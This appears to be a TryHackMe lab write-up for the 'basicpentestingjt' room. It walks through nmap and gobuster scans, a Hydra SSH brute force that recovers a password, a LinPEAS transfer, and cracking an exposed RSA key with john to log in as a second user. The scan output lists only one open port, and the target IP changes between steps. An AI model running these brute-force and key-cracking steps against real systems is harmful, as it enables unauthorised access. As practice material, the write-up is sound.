 
# 🛡️ TryHackMe Room Write-up Template


# 🏠 TryHackMe Room: basicpentestingjt
> Difficulty:Easy  
> Category: web app hcking and Priveldge Escalation
> Room URL: https://tryhackme.com/room/basicpentestingjt

---

## 🧠 Overview

**Objective**:  
  
"In this room we need to exploit,enumerate and escalate our privileges using various tools and skills"

---

## 🧰 Tools Used

-`nmap`
-`gobuster`
-`Enum4linux`

---

## 🌐 Enumeration

### 🔍 Nmap Scan
```
nmap -A -sS -p- -sV -Pn -T4 10.10.212.30
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 01:34 EDT
Stats: 0:04:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.20% done; ETC: 01:45 (0:06:40 remaining)
Stats: 0:06:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 64.67% done; ETC: 01:44 (0:03:40 remaining)
Nmap scan report for 10.10.212.30
Host is up (0.17s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   23.60 ms  10.17.0.1
2   ... 4
5   152.40 ms 10.10.212.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 604.90 seconds

```
---

## 📁 Web Enumeration

### Gobuster/Dirb Scan

```bash
gobuster dir -u 10.10.212.30 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

**Interesting Findings**:

* `/development`
* `/server-status`
---
## Enum4linux
" found users on the server"
- kay
- jan


## 🔓 Brute forcing 

### Hydra
`hydra -l jan -P rockyou.txt ssh://10.10.212.30`
got a password 
- * armando*

### SSh into the server

`ssh jan@10.10.212.30`

---

## 📈 Privilege Escalation

### Enumeration with LinPEAS

* Used `linpeas.sh`, and scp the shell to jan's machine
* `scp /usr/share/peass/linpeas/linpeas.sh jan@10.10.84.40:/dev/shm
jan@10.10.84.40's password: 
linpeas.sh `
* and got details about the device
* 

### Vulnerability Found
* private id_rsa key of user kay exposed
* <img width="367" height="56" alt="image" src="https://github.com/user-attachments/assets/7a2bd3a3-26ab-4a17-89be-f596021a3107" />

---
### John for rsa cracking
```
nano key_rsa
                                                                                                                                                                      
└─$ chmod 600 key_rsa
                                                                                                                                                                       

└─$ ssh2john key_rsa > forjohn.txt        
                                                                                                                                                                       

└─$ john forjohn.txt --wordlist ~/Downloads/rockyou.txt
└─$ ssh -i key_rsa kay@10.10.99.58


```
## 🔑PASSWORD
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
---

## 💡 Lessons Learned

* Learnt how use checklist for priv escalation
* learnt about enum4linux,linpeas.


---



